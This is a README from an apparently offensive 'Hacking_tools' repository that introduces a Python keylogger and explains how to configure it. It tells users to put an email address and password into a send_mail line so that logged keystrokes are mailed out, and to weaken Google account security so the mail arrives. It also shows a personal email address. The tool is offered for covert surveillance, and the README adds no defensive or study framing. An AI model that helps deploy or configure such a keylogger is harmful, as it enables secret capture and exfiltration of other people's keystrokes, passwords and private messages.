 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Python IDEs Ex: Pycharm, PyDev, IDLE, Spyder etc.. and Internet.
[+] Note: Before executing keylogger.py make sure that you have provided a proper email id and password in the line.
    self.send_mail("arnavkumar6360@gmail.com", "Your Password", self.log)
    For Ex: self.send_mail("Your email id ", "abc123def456", self.log)
    Also enable the Less secure app access of your google account to receive the mail send by the program.
[+] Link to enable Less secure app access https://myaccount.google.com/lesssecureapps
